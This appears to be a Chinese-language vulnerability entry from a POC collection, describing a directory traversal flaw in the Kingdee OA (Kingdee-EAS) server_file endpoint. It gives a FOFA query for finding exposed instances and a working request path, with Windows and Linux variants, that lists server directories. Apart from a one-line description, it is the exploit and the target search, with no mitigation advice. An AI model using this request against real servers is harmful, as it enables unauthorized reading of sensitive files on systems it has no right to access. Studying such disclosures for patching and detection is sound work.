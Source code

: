 # 金蝶OA server_file 目录遍历漏洞

## 漏洞描述

金蝶OA server_file 存在目录遍历漏洞，攻击者通过目录遍历可以获取服务器敏感信息

## 漏洞影响

> 金蝶OA

## FOFA

> [!NOTE]
>
> app="Kingdee-EAS"

## 漏洞复现

漏洞POC

```
/appmonitor/protected/selector/server_file/files?folder=/&suffix=
```

```
Windows服务器

appmonitor/protected/selector/server_file/files?folder=C://&suffix=

Linux服务器
appmonitor/protected/selector/server_file/files?folder=/&suffix=
```